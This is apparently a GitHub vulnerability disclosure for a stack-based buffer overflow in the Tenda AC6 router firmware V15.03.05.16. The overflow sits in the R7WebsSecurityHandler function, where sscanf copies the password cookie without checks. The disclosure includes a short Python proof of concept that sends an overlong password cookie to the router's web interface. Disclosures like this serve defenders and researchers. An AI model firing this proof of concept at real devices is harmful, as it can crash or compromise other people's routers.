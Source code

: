 # Tenda-Vul
Product:
Tenda AC6

Version:
V15.03.05.16
https://www.tenda.com.cn/material/show/102661

Problem Type:
Stack overflow
Description:
A vulnerability classified as critical has been found in Tenda AC6 15.03.05.16. Affected is the function R7WebsSecurityHandler of the file /goform/xxx. The manipulation of the argument password leads to stack-based buffer overflow. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. Other parameters might be affected as well.

Detial:
At the function of R7WebsSecurityHandler line 94：sscanf(v44, "%*[^=]=%[^;];*", v34).This function does not validate the user input.Copy user input directly into the stack.

POC:
import requests
URL = "http://192.168.2.3:80/goform/helloworld"
cookie = {"Cookie":"password="+"a"*0x400+".pngAAA"}
requests.get(url=URL, cookies=cookie)

![image](https://github.com/user-attachments/assets/c1a89751-2276-4f9b-be2a-1fba6a3be880)
